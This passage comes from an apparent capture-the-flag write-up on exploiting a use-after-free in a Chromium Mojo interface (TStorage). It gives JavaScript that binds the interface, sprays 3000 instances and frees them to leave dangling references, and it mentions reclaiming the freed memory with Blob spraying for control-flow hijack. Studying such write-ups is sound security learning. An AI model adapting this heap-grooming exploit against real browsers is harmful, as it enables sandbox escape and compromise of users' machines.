 ```js
var x = new blink.mojom.TStoragePtr();
Mojo.bindInterface(blink.mojom.TStorage.name,  mojo.makeRequest(x).handle);

await x.init();
var z = (await x.createInstance()).instance;

await x.ptr.reset(); // z is now marked for free
```


##### Exploitation

We get UAF with a very handful set of operations we can do on the object, from getting RIP control to reading inlined properties without any dangerous dereferences.

First we prepare objects by allocating couple of thousands of them

```js


var spray_inst = [];

for(var i = 0; i < 3000; i++){


        var x = new blink.mojom.TStoragePtr();
        Mojo.bindInterface(blink.mojom.TStorage.name,  mojo.makeRequest(x).handle);

        await x.init();
        var z = (await x.createInstance()).instance;

        spray_inst.push({"stor":x,"inst":z});
}
```

Then we trigger the bug by iterating over the `spray_inst` array again and freeing the `TStorage` object

```js

for(var i =0; i < 3000; i++){
        if((i % 300 )== 0){continue;}
        await spray_inst[i]["stor"].ptr.reset();

}
```

Now we get a **lot** of references to freed objects. This memory has to be reclaimed, and for that we need to have a primitive for spraying inside the mojo process heap. I spent more than 4 hours developing unreliable way of reclaiming memory with the help of `push/pop` operations in the queue. This didn't go well.

Suddenly, it was a divine intervention - my teammate Jazzy pointed me at the [blog](https://theori.io/research/escaping-chrome-sandbox/) which used Blobs for spraying the memory. It had an implementation that I just copy-pasted and it worked, so convenient!
